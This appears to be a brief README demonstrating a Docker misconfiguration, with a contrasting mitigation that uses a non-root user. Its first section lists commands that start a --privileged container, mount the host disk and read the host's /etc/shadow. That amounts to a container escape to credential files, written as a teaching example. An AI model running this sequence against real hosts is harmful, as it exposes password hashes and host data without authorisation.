 # privileged

An example of doing a bad thing to an unsecured container.

## Bad thing

```shell
cd ~/git/privileged
lsblk -io KNAME,TYPE,SIZE,MODEL # to find device name
docker build -t privileged:latest .
docker run --rm -it --privileged privileged:latest bash
mount /dev/sdc /mnt/gotcha
cd /mnt/gotcha
ls -l

cat /mnt/gotcha/etc/shadow
```

## Better

Uncomment the new user creation in `Dockerfile`, then

```shell
docker build -t privileged:latest .
docker run --rm -it --privileged privileged:latest bash
mount /dev/sdc /mnt/gotcha
whoami
```
